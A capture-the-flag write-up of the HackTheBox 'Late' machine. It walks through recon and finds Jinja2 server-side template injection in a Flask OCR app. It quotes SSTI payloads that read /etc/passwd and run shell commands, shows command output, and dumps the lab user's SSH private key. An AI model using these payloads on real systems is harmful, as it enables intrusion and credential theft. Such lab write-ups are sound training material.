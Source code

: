 # Late

## Late

**Date**: 22/05/2022

**Difficulty**: EASY

**CTF**: [https://app.hackthebox.com/machines/Late](https://app.hackthebox.com/machines/Late)

***

## Recognizance Phase

Let’s start sending a ping to the target IP:

<figure><img src="../../.gitbook/assets/late0.png" alt=""><figcaption></figcaption></figure>

We receive the ping back and we can see that ttl value is 63, so the target machine is a linux.

Let’s scan all TCP ports of the target IP machine and see which ones are open:

<figure><img src="../../.gitbook/assets/late1.png" alt=""><figcaption></figcaption></figure>

It reports us 2 open ports: 22 (probably ssh) and 80 (probably http).

Let’s run some basic enumeration scripts to detect the services and their versions that are running in these ports:

<figure><img src="../../.gitbook/assets/late2.png" alt=""><figcaption></figcaption></figure>

The port 22 is running OpenSSH 7.6p1. If we do a quick search of that version on launchpad:

<figure><img src="../../.gitbook/assets/late3.png" alt=""><figcaption></figcaption></figure>

We can see that the target machine may be running an ubuntu bionic. We’ll see later if it matches.

The port 80 is running a HTTP service and it appears to be using nginx 1.14.0. Let’s launch a whatweb scan to that service:

<figure><img src="../../.gitbook/assets/late4.png" alt=""><figcaption></figcaption></figure>

At email, we can see that it’s using the domain late.htb, so let’s add it to the /etc/hosts file in our machine:

<figure><img src="../../.gitbook/assets/late5.png" alt=""><figcaption></figcaption></figure>

Now, let’s visit the webpage with the IP and with the domain late.htb to see if there is any difference (in this case the page displayed seems to be the same).

<figure><img src="../../.gitbook/assets/imagen (11).png" alt=""><figcaption></figcaption></figure>

Taking a look to the main webpage I discover a link that redirect us to the subdomain `images.late.htb`:

<figure><img src="../../.gitbook/assets/imagen (12).png" alt=""><figcaption></figcaption></figure>

Let’s add it to the /etc/hosts file and visit it:

<figure><img src="../../.gitbook/assets/imagen (13).png" alt=""><figcaption></figcaption></figure>

Interesting, it seems to be an online service for converting image to text using a tool named Flask. There is a field where we can select a file of our machine and a button that will start the scan process…

Let’s test it with a valid image with text to see what happens:

<figure><img src="../../.gitbook/assets/imagen (14).png" alt=""><figcaption></figcaption></figure>

I have uploaded a PNG file with the text ”Hi, I’m Angel LM!” and after clicking on SCAN IMAGE button the site asks me to download the results… Let’s see what’s inside:

<figure><img src="../../.gitbook/assets/late10.png" alt=""><figcaption></figcaption></figure>

Pretty close to the text!

Let’s investigate about Flask. According to Wikipedia, Flask is a micro web framework written in Python that allows to create web apps.

As we saw earlier, this app is getting an image, finding the text inside it, and sending us the result in an HTML way `<p> THE RESULT </p>`

Maybe we can inject code as a file, inside the file name or in a image as text.

Let’s use Burp Suite to intercept a petition and see more info:

<figure><img src="../../.gitbook/assets/late11.png" alt=""><figcaption></figcaption></figure>

Apparently it is sending the data image by POST to /scanner.

Let’s try to upload a TXT file to the form.

<figure><img src="../../.gitbook/assets/late12.png" alt=""><figcaption></figcaption></figure>

An error “invalid extension” shows up any time I try to upload any file that hasn’t an image file extension.

What if I change the extension to .jpg, creating a non valid image?

<figure><img src="../../.gitbook/assets/late13.png" alt=""><figcaption></figcaption></figure>

Mmm… there is some information leakage? Apparently there is a user named `svc_acc` in the target machine. The files I send to scanner are being saved in `/home/svc_acc/app/uploads/` folder.

Ok, so there is no way to upload a malicious file. What about injecting the code inside the image? If we create an image of a code that could be executed by the framework we get an RCE and maybe we can get a Reverse Shell after.

I found this interesting article from hacktricks: [https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection).

The first step is to know if there is an Server Side Template Injection (SSTI) vulnerability.

To do so, I prepared this image:

<figure><img src="../../.gitbook/assets/late14.png" alt=""><figcaption></figcaption></figure>

And received this response from the scan web tool:

```bash
<p>49
${7*7}

<%= /*/] %>
S49
#{7*7}
</p>
```

Apparently, the strings `{{7*7}}` are being executed, so it is vulnerable to SSTI. Nice.

Now, let’s do some more checks to identify the template engine.

<figure><img src="../../.gitbook/assets/late15.png" alt=""><figcaption></figcaption></figure>

Apparently, Flash uses Jinja2 by defect, but let’s check it:

<figure><img src="../../.gitbook/assets/late16.png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/late17.png" alt=""><figcaption></figcaption></figure>

```bash
<p>7777777
</p>
```

Seems to be Jinja2.

In the hacktricks article, there are some examples of reading remote files exploiting jinja2:

```bash
# ''.__class__.__mro__[2].__subclasses__()[40] = File class
{{ ''.__class__.__mro__[2].__subclasses__()[40]('/etc/passwd').read() }}
{{ config.items()[4][1].__class__.__mro__[2].__subclasses__()[40]("/tmp/flag").read() }}
# https://github.com/pallets/flask/blob/master/src/flask/helpers.py#L398
{{ get_flashed_messages.__globals__.__builtins__.open("/etc/passwd").read() }}
```

And examples of RCE:

```bash
{{''.__class__.mro()[1].__subclasses__()[396]('cat flag.txt',shell=True,stdout=-1).communicate()[0].strip()}}
{{config.__class__.__init__.__globals__['os'].popen('ls').read()}}
```

The scanning app doesn’t recognize the text very well and it drop errors everytime I try to upload an image with executable code, and it’s hard to know where it failed. To deal with this, I removed the `{{ }}` from the text and modify the size of the text one time after another until the text I wrote is the same I received.

<figure><img src="../../.gitbook/assets/late18.png" alt=""><figcaption></figcaption></figure>

Monospace 36 with kerning adjustments in some parts.

<figure><img src="../../.gitbook/assets/late19.png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/late20.png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/late21.png" alt=""><figcaption></figcaption></figure>

I tried to launch a reverse shell in multiples ways: bash, python, netcat… but no one succeded, so I’ll do manual enumeration via SSTI i guess…

<figure><img src="../../.gitbook/assets/late22.png" alt=""><figcaption></figcaption></figure>

```bash
<p>svc_acc

</p>
```

<figure><img src="../../.gitbook/assets/late23.png" alt=""><figcaption></figcaption></figure>

```bash
<p>app
file
user.txt

</p>
```

<figure><img src="../../.gitbook/assets/late24.png" alt=""><figcaption></figcaption></figure>

```bash
<p>total 60
drwxr-xr-x 9 svc_acc svc_acc  4096 May 23 21:11 .
drwxr-xr-x 3 root    root     4096 Jan  5 10:44 ..
drwxrwxr-x 7 svc_acc svc_acc  4096 May 23 21:16 app
lrwxrwxrwx 1 svc_acc svc_acc     9 Jan 16 18:45 .bash_history -&gt; /dev/null
-rw-r--r-- 1 svc_acc svc_acc  3771 Apr  4  2018 .bashrc
drwx------ 3 svc_acc svc_acc  4096 Apr  7 13:51 .cache
drwxr-x--- 3 svc_acc svc_acc  4096 May 23 20:15 .config
-rw-rw-r-- 1 svc_acc svc_acc     0 May 23 20:42 file
drwx------ 4 svc_acc svc_acc  4096 May 23 20:09 .gnupg
drwxrwxr-x 5 svc_acc svc_acc  4096 Jan  5 12:13 .local
-rw-r--r-- 1 svc_acc svc_acc   807 Apr  4  2018 .profile
drwx------ 2 svc_acc svc_acc  4096 May 23 20:04 .ssh
-rw-r----- 1 root    svc_acc    33 May 23 19:12 user.txt
drwxr-xr-x 2 svc_acc svc_acc  4096 May 23 20:40 .vim
-rw------- 1 svc_acc svc_acc 10192 May 23 21:11 .viminfo

</p>
```

<figure><img src="../../.gitbook/assets/late25.png" alt=""><figcaption></figcaption></figure>

```bash
<p>8374#######################b33

</p>
```

<figure><img src="../../.gitbook/assets/late26.png" alt=""><figcaption></figcaption></figure>

```bash
<p>total 20
drwx------ 2 svc_acc svc_acc 4096 May 23 20:04 .
drwxr-xr-x 9 svc_acc svc_acc 4096 May 23 21:11 ..
-rw-rw-r-- 1 svc_acc svc_acc  394 May 23 20:04 authorized_keys
-rw------- 1 svc_acc svc_acc 1679 Apr  7 11:08 id_rsa
-rw-r--r-- 1 svc_acc svc_acc  394 Apr  7 11:08 id_rsa.pub

</p>
```

```bash
<p>-----BEGIN RSA PRIVATE KEY-----
MIIEpAIBAAKCAQEAqe5XWFKVqleCyfzPo4HsfRR8uF/P/3Tn+fiAUHhnGvBBAyrM
HiP3S/DnqdIH2uqTXdPk4eGdXynzMnFRzbYb+cBa+R8T/nTa3PSuR9tkiqhXTaEO
bgjRSynr2NuDWPQhX8OmhAKdJhZfErZUcbxiuncrKnoClZLQ6ZZDaNTtTUwpUaMi
/mtaHzLID1KTl+dUFsLQYmdRUA639xkz1YvDF5ObIDoeHgOU7rZV4TqA6s6gI7W7
d137M3Oi2WTWRBzcWTAMwfSJ2cEttvS/AnE/B2Eelj1shYUZuPyIoLhSMicGnhB7
7IKpZeQ+MgksRcHJ5fJ2hvTu/T3yL9tggf9DsQIDAQABAoIBAHCBinbBhrGW6tLM
fLSmimptq/1uAgoB3qxTaLDeZnUhaAmuxiGWcl5nCxoWInlAIX1XkwwyEb01yvw0
ppJp5a+/OPwDJXus5lKv9MtCaBidR9/vp9wWHmuDP9D91MKKL6Z1pMN175GN8jgz
W0lKDpuh1oRy708UOxjMEalQgCRSGkJYDpM4pJkk/c7aHYw6GQKhoN1en/7I50IZ
uFB4CzS1bgAglNb7Y1bCJ913F5oWs0dvN5ezQ28gy92pGfNIJrk3cxO33SD9CCwC
T9KJxoUhuoCuMs00PxtJMymaHvOkDYSXOyHHHPSlIJl2ZezXZMFswHhnWGuNe9IH
Ql49ezkCgYEA0OTVbOT/EivAuu+QPaLvC0N8GEtn7uOPu9j1HjAvuOhom6K4troi
WEBJ3pvIsrUlLd9J3cY7ciRxnbanN/Qt9rHDu9Mc+W5DQAQGPWFxk4bM7Zxnb7Ng
Hr4+hcK+SYNn5fCX5qjmzE6c/5+sbQ20jhl20kxVT26MvoAB9+I1ku8CgYEA0EA7
################################################################
0xEKNYA3HS5qvOI3dHj6O4JZBDUzCgZFmlI5fslxLtl57WnlwSCGHLdP/knKxHIE
uJBIk0KSZBeT8F7IfUukZjCYO0y4HtDP3DUqE18CgYBgI5EeRt4lrMFMx4io9V3y
3yIzxDCXP2AdYiKdvCuafEv4pRFB97RqzVux+hyKMthjnkpOqTcetysbHL8k/1pQ
GUwuG2FQYrDMu41rnnc5IGccTElGnVV1kLURtqkBCFs+9lXSsJVYHi4fb4tZvV8F
ry6CZuM0ZXqdCijdvtxNPQKBgQC7F1oPEAGvP/INltncJPRlfkj2MpvHJfUXGhMb
Vh7UKcUaEwP3rEar270YaIxHMeA9OlMH+KERW7UoFFF0jE+B5kX5PKu4agsGkIfr
kr9wto1mp58wuhjdntid59qH+8edIUo4ffeVxRM7tSsFokHAvzpdTH8Xl1864CI+
Fc1NRQKBgQDNiTT446GIijU7XiJEwhOec2m4ykdnrSVb45Y6HKD9VS6vGeOF1oAL
K6+2ZlpmytN3RiR9UDJ4kjMjhJAiC7RBetZOor6CBKg20XA1oXS7o1eOdyc/jSk0
kxruFUgLHh7nEx/5/0r8gmcoCvFn98wvUPSNrgDJ25mnwYI0zzDrEw==
-----END RSA PRIVATE KEY-----

</p>
```

<figure><img src="../../.gitbook/assets/late27.png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/late28.png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/late29.png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/late30.png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/late31.png" alt=""><figcaption></figcaption></figure>
